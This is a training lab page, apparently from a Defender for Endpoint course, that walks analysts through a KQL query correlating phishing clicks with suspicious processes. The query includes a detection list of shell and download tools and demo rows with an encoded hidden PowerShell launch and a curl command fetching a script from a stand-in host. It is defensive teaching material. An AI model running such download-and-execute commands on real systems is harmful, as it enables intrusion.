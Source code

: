 ```yaml
---
title: '03: Review execution timelines in Defender for Endpoint'
layout: default
nav_order: 1
parent: 'Exercise 05: Analyze and Map a Multi-Stage Intrusion'
---
```


## Task 03: Review execution timelines in Defender for Endpoint

1. Copy the following KQL into the query window, then select **Run query**.

    <details markdown='block'>
    <summary>
    Expand here to copy KQL-3.txt
    </summary>

    ```KQL-3.txt-wrap
    // ---- USE REAL MDO CLICKS + DEMO PROCESSES (fixed) ----
    let lookback    = 7d;
    let windowAfter = 2h;
    let suspicious  = dynamic(["powershell.exe","wscript.exe","mshta.exe","rundll32.exe","regsvr32.exe","cmd.exe","curl.exe","wget.exe","bitsadmin.exe"]);
    let demoBase    = ago(3d);

    // Real clicks (if present)
    let RealClicks =
        UrlClickEvents
        | where Timestamp > ago(lookback)
        | where ActionType in ("ClickAllowed","ClickBlocked") or toint(IsClickedThrough) == 1
        | project AccountUpn, ClickTime=Timestamp, Url, ReportId, NetworkMessageId;

    // --- FIXED: demo clicks use offset timespan, then extend to datetime ---
    let DemoClicksSeed =
    datatable (offset:timespan, AccountUpn:string, Url:string, ReportId:long, NetworkMessageId:string)
    [
      5m,  "alex.johnson@contoso.com", "http://contoso.example/billing", 777001, "netmsg-001",
      10m, "alex.johnson@contoso.com", "http://contoso.example/login",   777002, "netmsg-002",
      12m, "bruce.wayne@contoso.com",  "http://contoso.example/script",  777003, "netmsg-003"
    ];
    let DemoClicks =
        DemoClicksSeed
        | extend ClickTime = demoBase + offset
        | project AccountUpn, ClickTime, Url, ReportId, NetworkMessageId;

    // Prefer real clicks; include demo to guarantee results
    let Clicks = union isfuzzy=true RealClicks, DemoClicks;

    // --- FIXED: demo processes use offset timespan, then extend to datetime ---
    let DemoProcsSeed =
    datatable (offset:timespan, DeviceName:string, FileName:string, ProcessCommandLine:string,
               InitiatingProcessFileName:string, InitiatingProcessCommandLine:string,
               ActorUpn:string, ReportId:long)
    [
      25m, "SEA-WKS-001", "powershell.exe", "powershell -nop -w hidden -enc AQA...",
           "outlook.exe", "outlook.exe /embedding", "alex.johnson@contoso.com", 870001,

      30m, "SEA-WKS-001", "cmd.exe", "cmd /c curl http://contoso.example/a.ps1 -o a.ps1",
           "powershell.exe", "powershell -nop -w hidden", "alex.johnson@contoso.com", 870002
    ];
    let Procs =
        DemoProcsSeed
        | extend Timestamp = demoBase + offset
        | where FileName in~ (suspicious)
        | project Timestamp, DeviceName, FileName, ProcessCommandLine,
                  InitiatingProcessFileName, InitiatingProcessCommandLine,
                  ActorUpn, ReportId;

    // Correlate: suspicious process within 2h after a user's click
    Procs
    | join kind=inner (Clicks | project AccountUpn, ClickTime) on $left.ActorUpn == $right.AccountUpn
    | where Timestamp between (ClickTime .. ClickTime + windowAfter)
    | project Timestamp, DeviceName, FileName, ProcessCommandLine,
              InitiatingProcessFileName, InitiatingProcessCommandLine,
              AccountUpn=ActorUpn, ReportId
    | order by Timestamp asc

    ```
    </details>

    ![Intrusion-4.png](../../media/Intrusion-4.png)

    {: .note }
    > Common signals include:
    > - `outlook.exe` → `powershell.exe`
    > - `cmd /c curl ...` or `rundll32`, `mshta`  
    > These strongly suggest post-phish staging or execution.

    {: .highlight }
    > If multiple devices tie to the same user within the timeline, consider possible **lateral movement**.

